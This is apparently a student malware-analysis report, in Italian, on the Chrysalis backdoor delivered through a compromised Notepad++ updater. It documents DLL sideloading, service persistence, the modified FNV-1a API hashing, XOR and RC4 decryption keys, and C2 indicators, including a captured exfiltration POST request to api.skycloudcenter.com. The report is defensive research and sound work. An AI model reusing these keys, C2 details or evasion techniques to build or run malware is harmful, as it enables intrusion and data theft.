# Analisi Malware Chrysalis

<u>**Studenti**</u>

- De Lucia Simone M63001720
- Covone Gabriel M63001809

## Descrizione 

Nel febbraio 2026 il gruppo di ricerca di Rapid7 fa luce su una campagna malware attribuita al gruppo APT Lotus Blossom che coinvolge il meccanismo di update automatici dell'applicazione di note Notepad++, rivelandosi di fatto un attacco supply chain. In particolare, la campagna ha avuto vari step tra cui 
- la compromissione dei sistemi di rilascio degli update, accedendo in maniera non autorizzata ai sistemi di rilascio degli update
- dirottare selettivamente alcuni traffici  verso la risorsa mediante file manifest XML customizzati, costringendo così a forzare il software degli update automatici usato da Notepad++, in questo caso WinGUp. 
- installare su target specifici dei pacchetti compromessi, sfruttando l'assenza di meccanismi di controllo dell’integrità crittografica nelle versioni del client WinGUp precedenti alla 8.8.9.


La campagna malware ha avuto una finestra temporale di circa 5 mesi, dal settembre 2025 al gennaio 2026; Le vittime si concentravano in organizzazioni governative, istituzioni finanziarie e fornitori di servizi IT.  
In particolare, sono state colpite
- Un'organizzazione governativa nelle Filippine.
- Un fornitore di servizi IT in Vietnam.
- Un'istituzione finanziaria in El Salvador.
- Singoli utenti tecnici localizzati in Vietnam, Australia ed El Salvador.

Durante questo periodo, il malware ha operato in maniera silenziosa in tutti i sistemi infetti, effettuando information gathering e ottenendo accessi a sistemi critici in maniera remota. Inoltre, sono state trovate varie tipologie di loader e di servizi URL legati all'attacco in sé 


### Chrysalis

Durante questa campagna, l'ultimo malware utilizzato è stato rinominato Chrysalis.
La sua caratteristica principale risiede nel meccanismo di persistenza e di sofisticatezza del tool, oltre che a tanti strumenti di offuscamento. Dal punto di vista delle analisi, il malware è stato visto come uno step in avanti rispetto alle capacità pregresse del gruppo APT Lotus Blossom, e il chiaro intento di usare il malware per gestire una rete di informazioni da host infetti con uno strumento avanzato.


## Analisi

Chrysalis è un malware backdoor  che viene distribuito tramite un installer NSIS compromesso (`update.exe`), ottenuto grazie alla compromissione di WinGUp e alla catena di approvvigionamento degli update automatici. 

### Tool Utilizzati

I tool utilizzati sono suddivisi in base alla fase operativa per intercettare, decodificare e sconfiggere i meccanismi di evasione del malware:

| Fase | Strumenti | Scopo Principale |
| :--- | :--- | :--- |
| **1. Triage e Analisi Statica** | PEstudio, PEview, capa | Ispezione degli header PE, controllo dell'entropia/offuscamento e analisi iniziale delle capability delle API. |
| **2. Monitoraggio e Simulazione** | Procmon, FakeNet-NG, Wireshark | Monitoraggio in tempo reale del comportamento locale (registro/file) e simulazione del traffico di rete verso il C2. |
| **3. Debugging e Memory Dumping** | x32dbg, ScyllaHide, Scylla, PE-bear | Esecuzione controllata passo-passo, evasione delle difese anti-debug, dumping del payload e ricostruzione della IAT. |
| **4. Reverse Engineering e IoC** | IDA Freeware 8.2, FLOSS, yarGen | Decompilazione per lo studio della logica interna del malware, de-offuscamento automatico delle stringhe e creazione di regole YARA. |

## Esecuzione del malware e Indicatori di Compromissione (IoC)

Il primo step è stato fatto per raccogliere informazioni relative al malware, sia dal punto di vista di report online e di analisi, sia come opera all'interno di un sistema infetto. Questo non solo ci permette di consolidare le informazioni lette, ma anche di approfondire vari aspetti dell'infezione.

Si è partiti con l'esecuzione dell'update malevolo, per poi analizzare il comportamento scaturito all'interno dell'host.

### File creati nell'host
Una volta avviato l'update malevolo, all'interno del disco di sistema viene creata la cartella `%appdata%\Roaming\Bluetooth\` contenente i vari file malevoli che andranno a costituire la catena di esecuzione del malware.


Vengono identificati tre file, di cui ne analizziamo l'entropia e le proprietà: 
* **`BluetoothService.exe`**: L'eseguibile in sé è legittimo, tuttavia possiamo notare che la firma è stata modificata. In realtà risulta essere un servizio BitDefender. Eventuali ricerche hanno portato alla luce che normalmente può effettuare side-loading di una libreria di logging.
  
* **`log.dll`**: La libreria appare legittima, tuttavia viene notata un'entropia abbastanza elevata nella sezione di testo, simbolo che ci sia del codice cifrato 
* **`BluetoothService`**: Il file è cifrato ed è senza estensione, è lo shellcode vero e proprio 

### Connessioni all'esterno e Traffico C2

Un altro passaggio è stato il setup di FakeNet-NG e di Wireshark per intercettare eventuali richieste che provengono dall'esterno

Una volta avviato, è possibile notare che il malware tenta di stabilire una connessione HTTPS cifrata verso il proprio server C2. 


Grazie a FakeNet-NG, è stato possibile intercettare alcune richieste POST HTTP, con i seguenti dettagli principali
* **Host remoto**: `api.skycloudcenter.com`
* **Indirizzo IP reale di C2 (Threat Intelligence)**: L'analisi del traffico reale e i report di intelligence collegano il dominio `api.skycloudcenter.com` del gruppo Lotus Blossom principalmente a:
  - È stato rinvenuto un indirizzo IP **`61.4.102.97`**, geolocalizzato in Malesia, ma ritenuto benevolo
  
  Non è stato possibile ottenere ulteriori indirizzi, siccome le query DNS non hanno dato riscontro
* **Struttura della richiesta POST** estratta tramite FakeNet-NG: 
  ```http
  POST /a/chat/s/70521ddf-a2ef-4adf-9cf0-6d8e24aaa821 HTTP/1.1
  Host: api.skycloudcenter.com
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.4044.92 Safari/537.36
  Content-Type: text/html
  ```
   * La particolare struttura `/a/chat/s/{GUID}` serve a mimetizzare le connessioni come traffico legittimo verso endpoint API di chat (es. DeepSeek API).
* **Payload**: Il payload HTTP cifrato, indizio dell'uso di HTTPS per l'esfiltrazione dei dati.

#### Monitoraggio processo per esfiltrazione dei dati
Tramite Process Monitor è possibile confermare che l'origine del traffico proviene dal processo BluetoothService.exe


1. **Analisi del flusso TCP :**
   Questo conferma che `BluetoothService.exe` invia richieste verso l'IP di laboratorio `192.0.2.123` sulla porta `443` (HTTPS), che viene intercettata da FakeNet per l'esfiltrazione di dati. Il relativo payload rinvenuto da FakeNet risulta cifrato a causa dell'uso del protocollo di trasporto TLS/HTTPS.


2. **Analisi dello Stack Trace e Deviazione del Traffico (`tcp_send_traffic.png`):**
   * **Deviazione del traffico via WinDivert:** Lo stack trace dell'evento `TCP Send` rivela che il malware intercetta e inietta pacchetti a basso livello nel Windows Filtering Platform (`fwpkclnt.sys` tramite `FwpsStreamInjectAsync0`/`FwpsInjectNetworkSendAsync0` e `Wdf01000.sys`), bypassando le API socket standard (`ws2_32.dll`) tramite il driver `WinDivert64.sys`.
   * **Indicatori di Packaging (PyInstaller) ed Esecuzione:** La presenza del percorso temporaneo `_MEIxxxxx` (es. `_MEI28002`) indica che il malware è pacchettizzato in Python tramite PyInstaller, il quale scompatta a runtime il modulo `pydivert` e il rispettivo driver. Lo user-mode stack evidenzia inoltre un'esecuzione a 32 bit in ambiente WoW64, con caricamento del driver direttamente durante l'inizializzazione del thread.


#### Persistenza e Chiavi di Registro

Nel corso dell'analisi, è stato osservato che, dopo il riavvio del sistema, il malware viene riavviato sotto traccia, senza figurare all'interno dei processi in avvio, ma solamente nei processi in esecuzione.

Ispezionando le chiavi di registro, si nota che il malware registra un servizio di sistema denominato `BluetoothService` per garantirne l'esecuzione automatica ad ogni avvio dell'host.


* **Servizio creato**: `BluetoothService`
* **Chiave di registro**: `HKLM\SYSTEM\CurrentControlSet\Services\BluetoothService`
* **Comando di esecuzione**: `C:\Users\unina\AppData\Roaming\Bluetooth\BluetoothService.exe -i` (eseguito con privilegi di `LocalSystem`).


Inoltre, grazie a ProcMon, possiamo osservare che il processo di sistema `svchost.exe` (PID 6540) esegue un'operazione di enumerazione del registro (`RegEnumKey`) sotto `HKLM\System\CurrentControlSet\Services`, caricando e individuando con successo la chiave del servizio `BluetoothService` creata dal malware (all'indice 65) per avviarne poi l'esecuzione di `BluetoothService.exe`.

Durante l'esecuzione, il malware effettua la profilazione del sistema 


#### Evasione, Monitoraggio e Chiusura
Durante il monitoraggio dell'esecuzione del malware tramite Process Monitor, si osserva la terminazione del thread principale e del processo una volta completata l'iniezione, allo scopo di eludere l'analisi dinamica. Questo viene ripetuto periodicamente.

   


##  Roadmap di Analisi Operativa

Possiamo confermare, quindi, che il malware opera i seguenti passaggi:

1. **L'Installer NSIS (`update.exe`)**: Avvia l'infezione estraendo tre componenti principali all'interno della cartella `%appdata%\Roaming\Bluetooth\`:
   - **`BluetoothService.exe`** un eseguibile legittimo firmato da Bitdefender, originariamente `BDSubWizMT.exe`.
   - **`log.dll`** la libreria dinamica malevola da cui viene effettuato il sideloading.
   - **`BluetoothService`** il payload in grado di comunicare verso l'esterno ed esfiltrare dati
2. **DLL Sideloading**: All'avvio di `BluetoothService.exe`, il sistema operativo Windows carica automaticamente `log.dll` presente nella stessa cartella (sideloading).
3. **Esecuzione dello Shellcode**: La funzione di inizializzazione di `log.dll` (`DllMain` / `LogInit`) legge il file `BluetoothService` crittografato dal disco, lo decritta in memoria RAM usando un algoritmo matematico custom e vi trasferisce l'esecuzione.
   -  **Comunicazione C2**: Il payload finale decrittato (backdoor Chrysalis) effettua la profilazione dell'host e si connette al server di Command and Control (C2) per l'esfiltrazione e la ricezione di comandi.


L'architettura del flusso di esecuzione è riassunta nel seguente diagramma:


---

L'obiettivo dell'analisi, quindi, è di comprendere nel dettaglio in quali punti dei vari componenti è possibile rintracciare tutti gli indicatori di compromissione individuati nel corso della prima ispezione.

### Analisi Statica delle componenti


####  1. `update.exe` (Dropper NSIS)
**hash**: `8ea8b83645fba6e23d48075a0d3fc73ad2ba515b4536710cda4f1f232718f53e`

L'updater si presenta come un tipico installer NSIS, progettato per estrarre i componenti malevoli nella directory `%appdata%\Roaming\Bluetooth\`. Oltre all'installazione, l'updater imposta, mediante l'uso di un flag `nCmdShow` parametro di WinMain, attributi di file (FILE_ATTRIBUTE_HIDDEN o HIDDEN|SYSTEM) e di directory (FILE_ATTRIBUTE_HIDDEN) per nascondere i file installati, rendendoli invisibili all'utente.  Alla fine di ciò, avvia `BluetoothService.exe`



####  2. `BluetoothService.exe` (Loader & Esca Sideloading)
**hash**: `2da00de67720f5f13b17e9d985fe70f10f153da60c9ab1086fe58f069a156924`

L'eseguibile effettua solamente il side-loading di `log.dll`. 



Questo viene poi abusato successivamente per far partire l'attacco vero e proprio. 

In dettaglio, le azioni eseguite sono:

*   recupera la directory in cui risiede l'eseguibile tramite `GetModuleFileNameW`.
*   Sostituisce il nome dell'eseguibile nel percorso per concatenare ed individuare il file `log.dll`.
*   Effettua il caricamento manuale della libreria tramite `LoadLibraryW(L"log.dll")`.
*   Risolve dinamicamente le esportazioni di log richiamando `GetProcAddress` per le funzioni `LogInit`, `LogWrite`, `LogApplySettings`, e altre.
*   Salva i puntatori a queste funzioni all'interno di una struttura globale (`dword_4BCFBC`).
*   Avvia l'esecuzione del malware richiamando immediatamente l'esportazione `LogInit()` risolta dal DLL.

#### 3. `log.dll` (Loader Intermedio e API Hashing)
**hash**: `3bdc4c0637591533f1d4198a72a33426c01f69bd2e15ceee547866f65e26b7ad`
La DLL esporta funzioni con nomi fittizi tipici di librerie di logging per mascherare la sua natura malevola. 

All'ingresso viene allocata memoria heap , dopodiché vengono invocate due delle funzioni esportate:

* `LogInit`: Inizializza l'ambiente e alloca l'area di memoria heap per l'esecuzione del malware.

* `LogWrite`: Scrive ed esegue lo shellcode in memoria dopo averlo decifrato.


**Meccanismo di API Hashing:**
Oltre a questo , LogWrite effettua l'hashing delle funzioni di libreria importate tramite una subroutine. Il meccanismo è il seguente:

* Calcola l'hash FNV-1a standard a 32 bit del nome dell'API (costante di inizializzazione `0x811C9DC5` e moltiplicatore `16777619`).
* Esegue un'operazione XOR dell'hash con il suo shift logico a destra di 15 bit: `h = h ^ (h >> 15)`.
* Moltiplica il valore ottenuto per la costante `-2048144789` (ovvero `0x85EB87EB`).
* Esegue un'operazione XOR dell'hash finale con il suo shift a destra di 13 bit: `h = h ^ (h >> 13)`.
* Somma all'hash calcolato una chiave statica inizializzata all'avvio a `535972289` (`0x1FF09DC1`): `hash_finale = h + 0x1FF09DC1`.
*   Di seguito sono riportati gli hash decodificati delle API risolte da `log.dll`:
    *   **`winhttp.dll`:** `WinHttpOpen` (0x68C6D1D7), `WinHttpConnect` (0xB26E0E90), `WinHttpOpenRequest` (0xB22C9C14), `WinHttpSendRequest` (0x069E8B9B), `WinHttpReceiveResponse` (0x06AEB5BB), `WinHttpReadData` (0x28F634E3), `WinHttpSetStatusCallback` (0x4E6B404E), `WinHttpSetTimeouts` (0x8E867846).
    *   **`kernel32.dll`:** `VirtualAlloc` (0xBA4AE021), `VirtualProtect` (0x7DADB766), `CreateThread` (0xEA8D815C), `WaitForSingleObject` (0x31854D48), `LoadLibraryA` (0xE0CDA96B), `GetProcAddress` (0xB3A0A405).
    *   **`wininet.dll`:** `InternetOpenW` (0x2482E712), `InternetConnectW` (0x37C94070), `HttpOpenRequestW` (0xD42E1C6B), `HttpSendRequestW` (0xAFFE7343), `InternetReadFile` (0x19CD23D9).
    *   **`dnsapi.dll`:** `DnsQuery_W` (0x3E77D6C4), `DnsQuery_A` (0x00C99B0D), `DnsFree` (0x297ABAA0).
    *   **`ws2_32.dll`:** `WSAStartup` (0x098E4D98), `WSASocketW` (0x1553FF5F), `connect` (0x9348B408), `send` (0x20C5BD00), `recv` (0x10A4DD14), `closesocket` (0xEA5FEB68).
*   **Decrittazione e Setup dello Shellcode:**
    *   `LogInit` alloca un'area di memoria Heap da 2 MB nel processo host per accogliere lo shellcode.
    *   La funzione `LogWrite` popola il buffer allocato e vi inserisce una struttura di configurazione (`v3`) contenente puntatori a helper di risoluzione API ed informazioni sulla memoria.
    *   `LogWrite` richiama infine la routine crittografica `sub_10001640` (decrittazione XOR progressiva a tre fasi) e trasferisce il controllo allo shellcode eseguendo una chiamata dinamica (`call eax`).
   



### Estrazione e Analisi Dinamica dello Shellcode

La roadmap operativa si articola in due fasi sequenziali per l'estrazione, la decodifica e lo studio del payload finale:

| Fase | Descrizione | Obiettivo Principale | Strumenti Utilizzati |
| :--- | :--- | :--- | :--- |
| **Fase 1** | **Analisi Dinamica e Memory Dumping** | Bypass delle tecniche di evasione ed esecuzione controllata in x32dbg per dumpare il payload decrittato in RAM. | x32dbg, ScyllaHide, Procmon, FakeNet-NG |
| **Fase 2** | **Riparazione PE e Reverse Engineering** | Ricostruzione della IAT e delle intestazioni PE del dump, estrazione IOC e analisi statica dettagliata del codice. | PE-bear, Ghidra, IDA Freeware, Python |

---

### Analisi Dinamica e Bypass Anti-Debugging

In questa fase useremo **x32dbg** e **ScyllaHide** per estrarre lo shellcode dal processo `BluetoothService.exe`. 



#### Sintesi dei Tentativi e degli Ostacoli Incontrati
L'estrazione del payload ha richiesto il superamento di molteplici tecniche di evasione implementate dall'APT Lotus Blossom. Di seguito i passaggi fondamentali del diario di analisi:

1. **Evasione Iniziale (Bait and Switch):** I primi tentativi di usare Software Breakpoints sulle API standard e ScyllaHide si sono rivelati inefficaci. Il malware, una volta rilevato il debugger, clona se stesso in background ed evade l'analisi terminando il processo principale.
   :** Tramite Hardware Breakpoints su API native (come `ZwProtectVirtualMemory`), si è isolato un eseguibile in memoria. La sua ricostruzione (tramite PE-bear per correggere i Section Headers) ha però svelato un Decoy PE (esca), di dimensioni esigue e privo di codice Assembly utile.
   
   
   

4. **Bypass dell'API Hashing:** L'abbandono temporaneo dell'analisi dinamica a favore di quella statica in IDA ha permesso di scoprire l'utilizzo di API Hashing (FNV-1a modificato). 
   

5. **Tracking Dinamico ed Estrazione:** Conoscendo la logica, si sono impostati breakpoint mirati in x32dbg sulle routine di decrittazione, permettendo il dump finale dello shellcode, il quale decritta il file usando una logica XOR custom e la chiave `gQ2JR&9;`.
   

*(Ulteriori evidenze raccolte durante il tracciamento dinamico)*:


### Architettura del Modulo Principale (Chrysalis Backdoor)
Dopo aver estratto con successolo shellcode, è stato possibile analizzarlo. 

La prima operazione che viene eseguita è il caricamento delle librerie mediante un operazione di hashing più complessa rispetto a quella vista all'interno di LogWrite. 



#### 1. Decrittazione della Configurazione e Destinazione C2
Successivamente, viene decrittata una zona di memoria che ospita al suo interno i parametri per una richiesta HTTP all'esterno. L'algoritmo crittografico utilizzato per questo blocco è **RC4**, impiegando la chiave hardcodata `qwhvb^435h&*7`, la quale viene caricata all'interno carattere per carattere per evadere i controlli sulle stringhe.




Una volta decifrata la configurazione, il malware svela il dominio del Command and Control (C2):
- **URL di Esfiltrazione:** `https://api.skycloudcenter.com/a/chat/s/70521ddf-a2ef-4adf-9cf0-6d8e24aaa821`
  
- Possiamo notare anche l'indirizzo IP `61.4.102.97`

In questo modo siamo riusciti a risalire all'url di esfiltrazione individuato nelle fasi iniziali.

#### Tripla Modalità di Esecuzione
Chrysalis implementa una logica differenziata a tre vie basata sugli argomenti a riga di comando passati all'eseguibile, con lo scopo di eludere sandbox o controlli statici e instaurare la persistenza in modo silente.

1. **Modalità Installazione (Nessun parametro):** 
   Crea un servizio di sistema o una voce di registro in modo da assicurare la persistenza all'avvio dell'host. Questo servizio esegue il malware passandogli specificamente il parametro `-i`. Completata l'installazione, il processo originario termina immediatamente.

   


2. **Modalità Launcher (Parametro `-i`):**
   Genera e lancia in background una nuova istanza di se stesso tramite la funzione di sistema `ShellExecuteA`, iniettandovi il parametro `-k`. In questo modo elude il tree genitore.
   
   
   Tramite procexp possiamo osservare il processo figlio che viene creato
   

3. **Modalità Payload (Parametro `-k`):**
   Questa modalità salta i controlli preliminari e avvia direttamente la logica malevola finale, decodificando e mandando in esecuzione il codice (Shellcode + comunicazione C2).

#### 3. Information Gathering ed Esfiltrazione via HTTP POST
Prima dell'attività di rete, il malware si assicura il monopolio del sistema:
- **Creazione Mutex:** Verifica la presenza di un Mutex (es. `Global\Jdhfv_1.0.1`) e in caso contrario lo crea per segnalare la sua singola istanza attiva.
  
  
  Questo inoltre può essere confermato anche tramite procexp
  

- **Info Stealing:** Raccoglie una fingerprint approfondita dell'host, comprendente i dettagli del Sistema Operativo, l'elenco degli Antivirus, l'orario e il Nome Utente/Computer. È inoltre possibile notare che lo stack contiene i vari metodi HTTP delle richieste
  
  
- **Connessione C2 e Terminale Interattivo:** Aggrega i dati raccolti, calcola l'hash FNV-1a come UUID e li cifra nuovamente usando un'altra chiave RC4 (`vAuig34%^325hGV`). Successivamente, instaura un terminale/canale bidirezionale (in stile reverse shell cmd.exe) che trasmette costantemente dati all'indirizzo C2 appena decrittato avvalendosi di richieste in formato **HTTP POST**.
  
  

Tramite questo canale interattivo su protocollo POST, la backdoor Chrysalis può ricevere ed eseguire autonomamente una suite di 16 diverse istruzioni (upload, download, proxy e spawn di processi), confermandosi uno strumento altamente modulare ed evasivo per il toolkit Lotus Blossom.
